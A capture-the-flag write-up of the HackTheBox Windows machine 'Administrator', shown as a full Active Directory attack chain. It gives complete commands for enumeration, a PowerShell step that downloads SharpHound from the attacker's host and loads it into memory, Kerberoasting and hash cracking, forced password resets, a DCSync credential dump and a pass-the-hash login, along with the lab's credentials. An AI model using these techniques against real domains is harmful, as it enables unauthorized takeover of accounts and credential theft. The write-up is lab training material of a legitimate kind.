

---
tags:
  - Windows
  - bloodhound
  - FTP
  - Kerberoast
  - DCSync
---

... is a medium HTB machine where a assumed-breach account in a Windows environment allows lateral movement to an account which has access to the `FTP` service. There, the credentials to another account can be found in a `brute-forcable` password storage file. That account then can `kerberoast` another account, which is allowed to impersonate `DC`'s to perform the `DCSync` attack for the `Administrator` `NTHash`. 

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `21`: usually used by `File Transfer Protocol`, allowing access to files and directories.
- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `nmap` scan indicates, the domain name `administrator.htb` is in use. That is why i edit my `/etc/hosts` file as follows for local `DNS` resolution:
```bash
echo "$IP administrator.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As this machine is an `assumed breach` machine, i already have valid credentials so i can use them for this scan:
```bash
nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "Olivia" here, but append "administrator.htb\", as LDAP is in place!
# -p: the password to use. "ichliebedich" here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share
```
There doesn't seem to be any out-of-place shares here, but i still decided to investigate the shares i have `READ` access to using the following command (most notably `SYSVOL`, as it may store clear-text credentials):
```bash
smbclient -U 'administrator.htb\Olivia' --password='ichliebedich' "//administrator.htb/SYSVOL"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here 'administrator.htb\Olivia' is a user on the LDAP (need to specify the domain)
# --password: specify olivia's password
```

Sadly, i always received a `(Error NT_STATUS_UNSUCCESSFUL)`.

I also decided to run the `nxc smb` scan using the `--users` flag instead of the `--shares` flag to enumerate all the available users and see if something is in their description, and this is the output:
```bash
-Username-                    -Last PW Set-       -BadPW-
Administrator                 2024-10-22 18:59:36 0
Guest                         <never>             0
krbtgt                        2024-10-04 19:53:28 0
olivia                        2024-10-06 01:22:48 0
michael                       2024-10-06 01:33:37 0
benjamin                      2024-10-06 01:34:56 0
emily                         2024-10-30 23:40:02 0
ethan                         2024-10-12 20:52:14 0
alexander                     2024-10-31 00:18:04 0
emma                          2024-10-31 00:18:35 0
```
Sadly, there were no passwords in the `-Description-` tab.

Usually i would now start a `bloodhound` scan, but i did not forget the `ftp` service which was present, which is why i also tried investigating it using the following command:
```bash
ftp 'administrator.htb/Olivia'@administrator.htb
```
But it gave me the error message:
```bash
530 User cannot log in, home directory inaccessible.
```
... indicating that this account is locked or expired for this service.

My next idea was to start a `bloodhound` scan (due to the presence of `LDAP` on the server) to find out if `Olivia` has any interesting permissions. As i cannot execute code on the target yet, i cannot use the preferred `bloodhound-ingestor` `SharpHound.exe`, which is why i decided to use `netexec`'s built-in `bloodhound-ingestor` as follows:
```bash
nxc ldap administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --bloodhound --collection All --dns-server $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "Olivia" here, but append "administrator.htb\", as LDAP is in place!
# -p: the password to use. "ichliebedich" here
# --bloodhound: perform multiple `LDAP` scans to save in a file which can be investigated with bloodhound
# --collection All: use all collection methods
# --dns-server: specify the server which resolves DNS
```

I start `bloodhound` with `bloodhound-start`, and upload the resulting `...bloodhound.zip` file which was created from the scan before, to the `File Ingest` tab if the `bloodhound` GUI.

After waiting a while for the `Ingest` to complete, i head over to the `Explore` section and search for `user:Olivia` in the search tab, and click on the `Outbound Object Control` to find out what permissions `Olivia` might have over other objects. 

### Initial Exploitation
Apparently, `Olivia` is part of the `Remote Management Users` group, which means she has access to `winrm`, so the following command actually just works, completing the `Initial Exploitation` phase:
```bash
evil-winrm -i administrator.htb -u "administrator.htb\olivia" -p ichliebedich
```

### Lateral Movement
There is no `flag` on her desktop (i still need to move to other accounts), but this means that i am simply allowed to execute code on the system, and therefore gather better data using `SharpHound.exe`! To do so, i download the binary from the releases page of the [SharpHound GitHub](https://github.com/SpecterOps/SharpHound) onto my local machine. And serve it via a `http` server using the command `python3 -m http.server 1337`. To download and save the binary, i issue the following `powershell` command from `olivia`s terminal:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<my_IP>:1337/SharpHound.exe')
```
This fetches the `SharpHound.exe` file from my `http` server and stores it in the variable `$data`. I issue the following command to load the `data` into memory:
```powershell
$assem = [System.Reflection.Assembly]::Load($data)
```
And lastly, i can execute `SharpHound` as follows:
```powershell
[Sharphound.Program]::Main(@("-d","administrator.htb","-c","All","--OutputDirectory","C:\Users\olivia","--ZipFileName","test.zip"))
```
This scans the domain `administrator.htb` with `All` collection methods! It will output the `zip` at `C:\Users\olivia` and name it `test.zip`.

To get this created `ZIP` file onto my local machine, i can use the `evil-winrm` command `download ...zip ./good-data.zip` to download the ZIP file to my local directory where i started the `evil-winrm` command!

I clear the previous `bloodhound` data in `Administration > Database Management`, and upload the new data. The new bloodhound data paints a clearer picture of the situation.

Now, with the full mapping of the `AD` environment, i investigate the `Outbound Object Control` of `Olivia`, and find out that she has `GenericAll` privileges over `Michael` (also has `winrm` capabilities). Using these privileges i can do the following attacks on his account:

- `Targeted Kerberoast`: Allows me to get the `kerberos` hash of the user which i can to crack. As this is a regular user, it may be possible that he uses a weak password.
- `Force Change Password`: Change the password of the account. Not very stealthy, but gives me password-based access.
- `Shadow Credentials attack`: Edits the `msDS-KeyCredentialLink` attribute, so that i can use my own cryptographic key to authenticate as that service using `Windows Hello`-like features. Can result in the `NTHash` of that user, which i can `Pass` for `winrm` access.

Due to this being a regular user account, i decided to use a `Targeted Kerberoast` to fetch the `kerberos ticket` of the user `Michael`, which i can attempt to crack! For this task, i use `targetedKerberoast.py` from this [GitHub repo](https://github.com/ShutdownRepo/targetedKerberoast). 

Before doing any `kerberoast` attack, i need to synchronize the date and time with the date and time of the target (or else, i will get `Kerberos SessionError: Clock skew too great`). It can be done like this:
```bash
sudo timedatectl set-ntp off
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# prevents the OS from automatically correcting the time
```

```bash
sudo rdate -n $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# synchronizes time with the target
```

Now, the following command can be used to get the hash for `management_svc`:
```bash
./targetedKerberoast.py -v -d 'administrator.htb' -u 'Olivia' -p 'ichliebedich'
```

This gives me the `kerberos` hash of `michael`. I save it in a `hash.txt` file and attempt to crack it using the following `hashcat` command (mode `13100` for `kerberos` hashes):
```bash
hashcat -m 13100 ./hash.txt ./rockyou.txt
```
This did not work though.

That is why i resort to the `Force Change Password` attack (`michael` probably won't miss his old password anyway...). As i already have `GenericAll` permissions, i can easily do this using `samba's` `net` tool:
```bash
net rpc password michael password123 -U administrator.htb/olivia --password='ichliebedich' -S administrator.htb
```
Now i am able to `winrm` using `michael's` new password:
```bash
evil-winrm -i administrator.htb -u "administrator.htb\michael" -p password123
```

Sadly, `michael` does not have the `flag` either, and he does not have more privileges than `olivia` on `SMB` or `FTP`. Further investigating his `Outbound Object Control` reveals that he has the `ForceChangePassword` permission over the account `Benjamin`. Although `Benjamin` is not allowed to use `winrm`, he is part of the `SHARE MODERATORS` group, which may give me access to `SMB` or `FTP`! I use the same attack as before but using `michael's` account on `benjamin's` account (i hope `benjamin` also likes new passwords):
```bash
net rpc password benjamin password123 -U administrator.htb/michael --password='password123' -S administrator.htb
```

With the newly gained access to `benjamin`'s account, i try to enumerate the `SMB` and `FTP` shares:
```bash
smbclient -U 'administrator.htb\benjamin' --password='password123' "//administrator.htb/SYSVOL"
```

```bash
# and
```

```bash
ftp 'administrator.htb/benjamin'@administrator.htb
```

The `SMB` access still does not work, but i have access to the `FTP` service! From there, i can `get` the file `Backup.psafe3`. To view this file i need the binary `passwordsafe` which i can install using `sudo apt install`. 

Executing `psafe ./Backup.psafe3` prompts me for a password which i do not have. Luckily, `hashcat` has mode `5200`, which allows you to brute-force the password using a word-list! I execute the following command:
```bash
hashcat -m 5200 ./Backup.psafe3 ./rockyou.txt
```
And this gives me the password `tekieromucho`!

I can now view it's content using:
```bash
pwsafe ./Backup.psafe3
```
This password-safe gives me the following credential pairs:
```bash
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

I looked up these three accounts in `bloodhound`, and found out that `alexander` and `emma` are very low privileged (only member of `DOMAIN USERS`, with no `Outbound Object Controls`). `emily` on the other hand, is allowed to `winrm` due to being in the `REMOTE MANAGEMENT USERS` group, but also has some interesting `Outbound Object Controls`. But before investigating them, i `winrm` into her account using this command and read the `user.txt` flag:
```bash
evil-winrm -i administrator.htb -u "administrator.htb\emily" -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

### Privilege Escalation
When investigating `emily's` `Outbound Object Controls`, i see that she has `GenericWrite` permissions over the `Ethan` account. The `ethan` account on the other hand, has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permissions on the domain, which allows him to do a `DCSync` attack:

This can eventually lead to `Administrator` access to this machine!

The `DCSync` attack abuses the mechanism that domain controllers use to keep their databases synchronized. If an account is given these rights, he can ask the system for it's user database without being an domain controller! In this scenario, `ethan` has this right.

To do so, his password is required. Using a `targeted kerberoast`, i may be able to crack the resulting `kerberos hash` to obtain it. As I've tried the attack before in this write-up, here it is again:
```bash
./targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

This gives me the `kerberos` hash of `ethan`. I save it in a `hash.txt` file and attempt to crack it using the following `hashcat` command (mode `13100` for `kerberos` hashes):
```bash
hashcat -m 13100 ./hash.txt ./rockyou.txt
```
This time it was successful, and gave me his clear-text password of `limpbizkit` (cool!). As `bloodhound` suggests, i can use the `secretsdump` utility from the `impacket` suite to dump the database of the target:
```bash
impacket-secretsdump ethan:limpbizkit@administrator.htb
```
This dumps the domain credentials in the format `domain\uid:rid:lmhash:nthash`. I also receive the credentials of the local `Administrator`. I can use his `NTHash` to get a `winrm` session as follows:
```bash
evil-winrm -i administrator.htb -u "administrator.htb\Administrator" -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```
